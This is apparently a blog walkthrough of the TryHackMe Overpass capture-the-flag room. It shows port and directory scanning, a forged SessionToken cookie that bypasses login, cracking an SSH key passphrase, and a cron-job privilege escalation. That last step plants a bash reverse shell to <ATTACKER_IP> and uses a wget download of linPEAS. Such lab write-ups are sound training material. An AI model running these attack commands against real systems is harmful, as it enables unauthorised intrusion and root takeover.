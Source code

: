 ```yaml
---
title: "Quick and Easy Overpass CTF TryHackMe Walkthrough"
datePublished: Sun Aug 27 2023 19:39:01 GMT+0000 (Coordinated Universal Time)
cuid: clltut44q000108me29mp7b19
slug: overpass-ctf
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1693165092565/adce55a8-cad4-4477-9451-58f77916f985.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1693165130968/058194b8-6c57-491e-8c3d-81a900397f31.png
tags: javascript, learning, hacking, ctf, 2articles1week

---
```


This walkthrough covers the [Overpass](https://tryhackme.com/room/overpass) CTF found on [TryHackMe](https://tryhackme.com). This room aims to exploit a vulnerable web application through a flawed authentication measure, obtain an initial foothold using exposed SSH keys, and then escalate privileges to root by injecting a reverse shell into a cronjob with poorly managed permissions.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693151396473/db4e3302-2a8f-4e91-87b0-ccd63a41788c.png align="center")

### Step 1: Nmap Scan

As always, we'll begin our penetration test by enumerating the network to identify running services.

```bash
sudo nmap -sV -p- -T4 -Pn 10.10.62.26 --disable-arp-ping --max-retries=0
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693162687231/1e4a9cb9-8600-4e3b-a2c8-a34498b8f58c.png align="center")

Let's examine and see what we can obtain from the web server using `ffuf`.

### Step 2: FFUF

```bash
sudo ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt:FUZZ -u http://10.10.62.26/FUZZ -t 10
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693162777077/d6c2e40e-d6e2-4dad-a782-03c0cb200667.png align="center")

### Step 3: Initial Foothold

The `/admin` directory appears promising. Let's navigate to it and explore what we can do with it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693162827321/33d4cb35-5eb5-4cc2-857f-10597d6dbe5c.png align="center")

Upon examining the source code, we discover a JavaScript file named `login.js`.

```javascript
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

This script contains a vulnerability listed in the `OWASP Top 10`, known as `Broken Authentication`.

```javascript
    } else { 
        Cookies.set("SessionToken",statusOrCookie) 
        window.location = "/admin" 
    }
}
```

Using `Developer Tools (F12)` and navigating to `Storage` (in Firefox), we can add a new item and create a `SessionToken` with a value of "`admin`" inside it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163060518/c3ca7113-622d-4295-a8c3-2c8fc193a9a7.png align="center")

This enables us to circumvent the login necessity. After gaining access, we came across an `SSH` key belonging to a user named `James`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163115324/4f12413f-3207-4136-89a8-f271cbc276ea.png align="center")

We can use `ssh2john` and `john-the-ripper` to crack the passphrase for this.

Save the `SSH` key in a file named `id_rsa`, and then execute the following commands:

```bash
python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

Then run `john`:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163364720/a6704e43-c596-4a14-b20e-2f4cc9119d6f.jpeg align="center")

Set the permissions for the `id_rsa` file.

```bash
chmod 600 id_rsa
```

Log in to the target.

```bash
ssh -i id_rsa james@<TARGET_IP>
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163459398/1b740587-69f5-4bcc-a530-7f916b65f135.png align="center")

Grab the `user.txt` flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163488021/242cc56c-2e25-4a22-8bd0-1ef7fe8e5882.jpeg align="center")

### Step 4: Privesc and Root

Begin by starting an HTTP server to transfer `linPEAS`, which will help enumerate the system for potential privilege escalation vectors.

```bash
python3 -m http.server 1337
```

Download `linPEAS` to the victim.

```bash
wget http://<ATTACKER_IP>/linpeas_linux_amd64
```

Make it executable.

```bash
chmod +x linpeas_linux_amd64
```

Run it.

```bash
./linpeas_linux_amd64
```

Upon analyzing the results, we discovered a vulnerability in the cron jobs.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163689197/09cbd9e9-ecba-44d1-b0c0-8b868d5b2844.png align="center")

Every minute, precisely on the minute, a request is sent to fetch `buildscript.sh` as root. However, this file has write access for regular users, which allows us to modify it with a reverse shell.

First, we want to modify `/etc/hosts` and change `overpass.thm` to our IP address.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163843395/1b595f21-c2f4-4d56-9a7a-34639c38b19c.png align="center")

The method for escalating privileges here involves altering the IP address of `overpass.thm` to our own and creating a `/downloads/src` directory on our system with a modified `buildscript.sh` file that incorporates a reverse shell for the scheduled task to retrieve.

Create the reverse shell:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/1338 0>&1"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693163978286/a3abfc07-0643-4b9a-aff8-85b1a0b38e2e.png align="center")

Then, run an HTTP server from the root directory using the command:

```bash
python3 -m http.server 80
```

After a minute, it will pull the `buildscript.sh` file we created and connect back to our netcat listener on port 1338.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693164132669/92cba98b-36c8-44d1-a86c-04fa45651f2d.png align="center")

And that's it! Once we gain access, we can obtain the `root.txt` flag.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693164176186/9d40e82b-5889-45e9-9c8d-ddc72c34f459.jpeg align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1693164179848/0c6ab381-a061-4b1d-b786-310466b793ed.png align="center")

### Summary

> In this walkthrough, we will exploit a vulnerable web application on TryHackMe's Overpass CTF by bypassing a flawed authentication measure, obtaining an initial foothold using exposed SSH keys, and escalating privileges to root through a reverse shell injected into a cronjob with poorly managed permissions. The steps include an Nmap scan, using ffuf for network enumeration, gaining initial access, and escalating privileges to obtain the root flag.